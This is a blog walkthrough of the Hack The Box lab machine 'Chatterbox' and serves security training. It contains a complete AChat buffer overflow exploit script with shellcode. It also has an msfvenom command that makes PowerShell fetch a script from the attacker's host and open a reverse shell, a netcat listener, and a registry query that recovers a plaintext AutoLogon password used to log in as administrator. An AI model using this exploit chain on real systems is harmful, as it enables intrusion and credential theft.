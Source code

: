 ```yaml
---
layout: post
title: "HTB: Chatterbox Walkthrough"
---
```


<img src="{{ '/assets/images/chatterbox-icon.png' | relative_url }}" alt="Chatterbox Icon" />

# intro

The goal of this post to provide an updated version of Hack The Boxes machine, [Chatterbox](https://app.hackthebox.com/machines/123), (I am not sure if any one else has made a similar post but more than one doesn't hurt). 

There where a few trouble areas when doing this machine so my goal is to help anyone who may have ran into similar issues themsleves. I followed [0xdf's](https://0xdf.gitlab.io/2018/06/18/htb-chatterbox.html) walkthrough and there seems to be seem dated steps that could be updated. I intened to correct these dated issues with this post.

Let's dive in! 

## reconnaissance

As usual with any CTF-type machine, we are going to start out with an `nmap` scan:

<pre><code>```bash
t3lesph0re@neptune:~$ nmap -p- 10.10.10.74

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-14 18:39 EDT
Nmap scan report for 10.10.10.74
Host is up (0.030s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9255/tcp  open  mon
9256/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 60.09 seconds
```<code></pre>

The `nmap` scan shows that there are two _non-default_ ports outside of the default top 1000 ports that are usually open, port `9255` and `9256`. 

### AChat on port 9256

There is a service called `AChat` running on port `9255` and `9256`. There is a known [buffer overflow](https://www.exploit-db.com/exploits/36025) that affects the version on AChat running on our attack machine. The exploits is sent to port `9256 / UDP`. 

## initial exploit 

Because this is a windows host, we can use [Nishang's](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1` script to get a shell. 

We will create a payload with `msfvenom` and deliver it via the Exploit-DB Python script to exploit the AChat vulnerability. Successful exploitation will run `Invoke-PowerShellTcp.ps1` and attempt to establish a reverse shell.

This is the `msfvenom` command to generate the shell code that we will use in the Python script:

<pre><code>```bash
t3lesph0re@neptune:~$ msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell iex(new-object net.webclient).downloadstring('http://10.10.14.8/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 8082" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
```<code></pre>

This will save a **Python-formatted representation** of the generated payload to the file `shellcode`. When you output this file you will have your encoded shell that you will need to put into the Exploit-DB script (see below):

<pre><code>```python
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit

import socket
import sys, time

# REPLACE THIS w/ Shellcode 
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x69\x6c\x77\x78\x62\x62"
buf += "\x69\x70\x59\x70\x4b\x50\x73\x30\x43\x59\x5a\x45\x50"
buf += "\x31\x67\x50\x4f\x74\x34\x4b\x50\x50\x4e\x50\x34\x4b"
buf += "\x30\x52\x7a\x6c\x74\x4b\x70\x52\x4e\x34\x64\x4b\x63"
buf += "\x42\x4f\x38\x4a\x6f\x38\x37\x6d\x7a\x4d\x56\x4d\x61"
buf += "\x49\x6f\x74\x6c\x4f\x4c\x6f\x71\x33\x4c\x69\x72\x4e"
buf += "\x4c\x4f\x30\x66\x61\x58\x4f\x5a\x6d\x59\x71\x67\x57"
buf += "\x68\x62\x48\x72\x52\x32\x50\x57\x54\x4b\x72\x32\x4e"
buf += "\x30\x64\x4b\x6e\x6a\x4d\x6c\x72\x6b\x70\x4c\x4a\x71"
buf += "\x43\x48\x39\x53\x71\x38\x6a\x61\x36\x71\x4f\x61\x62"
buf += "\x6b\x42\x39\x4f\x30\x4a\x61\x38\x53\x62\x6b\x30\x49"
buf += "\x6b\x68\x58\x63\x4e\x5a\x6e\x69\x44\x4b\x6f\x44\x72"
buf += "\x6b\x4b\x51\x36\x76\x70\x31\x69\x6f\x46\x4c\x57\x51"
buf += "\x48\x4f\x4c\x4d\x6a\x61\x55\x77\x4f\x48\x57\x70\x54"
buf += "\x35\x49\x66\x49\x73\x51\x6d\x7a\x58\x6d\x6b\x53\x4d"
buf += "\x4e\x44\x34\x35\x38\x64\x62\x38\x62\x6b\x52\x38\x6b"
buf += "\x74\x69\x71\x4a\x33\x33\x36\x54\x4b\x7a\x6c\x6e\x6b"
buf += "\x72\x6b\x51\x48\x6d\x4c\x6b\x51\x67\x63\x52\x6b\x49"
buf += "\x74\x72\x6b\x4d\x31\x7a\x30\x44\x49\x51\x34\x6e\x44"
buf += "\x4b\x74\x61\x4b\x51\x4b\x4f\x71\x51\x49\x71\x4a\x52"
buf += "\x31\x49\x6f\x69\x50\x31\x4f\x51\x4f\x6e\x7a\x34\x4b"
buf += "\x6a\x72\x38\x6b\x44\x4d\x71\x4d\x50\x6a\x59\x71\x64"
buf += "\x4d\x35\x35\x65\x62\x4b\x50\x49\x70\x4b\x50\x52\x30"
buf += "\x32\x48\x6c\x71\x64\x4b\x72\x4f\x51\x77\x59\x6f\x79"
buf += "\x45\x45\x6b\x48\x70\x75\x65\x35\x52\x30\x56\x72\x48"
buf += "\x33\x76\x35\x45\x37\x4d\x63\x6d\x49\x6f\x37\x65\x6d"
buf += "\x6c\x6a\x66\x31\x6c\x79\x7a\x51\x70\x4b\x4b\x67\x70"
buf += "\x53\x45\x6d\x35\x55\x6b\x31\x37\x4e\x33\x32\x52\x30"
buf += "\x6f\x42\x4a\x6d\x30\x50\x53\x79\x6f\x37\x65\x70\x63"
buf += "\x53\x31\x72\x4c\x30\x63\x4c\x6e\x70\x65\x32\x58\x50"
buf += "\x65\x6d\x30\x41\x41"
# REPLACE THIS w/ Shellcode ^

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256) # UPDATED IP POINTING TO TARGET

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40" 
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```<code></pre>

Once you have updated this script, we will need 3 seperate terminals: python HTTP server, listener, and the exploit script. 

1. Start the HTTP python server:

<pre><code>```bash
python3 -m http.server 80
```<code></pre>

2. Start the listener:

<pre><code>```bash
nc -lnvp 8082
```<code></pre>

3. Run the Python script:

Because the script shebang shows `#!/usr/bin/python`, we will use `Python2`:

<pre><code>```bash
python2 36025
```<code></pre>

The Python script will run and you will see that the `Invoke-PowerShellTcp.ps1` was grab from the Python HTTP server `10.10.10.74 - - [14/Oct/2025 19:09:22] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -`. Additionally, the script will output its `---->{P00F}!` and you will get your reverse shell for the user `chatterbox\alfred` 

<figure>
  <img src="{{ '/assets/images/chatterbox-revshell.png' | relative_url }}" alt="Chatterbox Reverse Shell" />
  <figcaption>Reverse Shell as user Alfred</figcaption>
</figure>

## privilege escaation to admin

From here we can use our low level user shell to enumerate the AutoLogon credentials:

<pre><code>```powershell
PS C:\> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!
    ```<code></pre>

Here we can see that the _DefaultPassword_ `Welcome1!` is in plaintext. 

Using `winexe` we can login using this password for the user `administrator` to grab the final flag of the challenge! 

<pre><code>```bash
t3lesph0re@neptune:~$ winexe -U 'administrator%Welcome1!' //10.10.10.74 cmd.exe
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\administrator
```<code></pre>

I hope this was helpful.
 
 # end 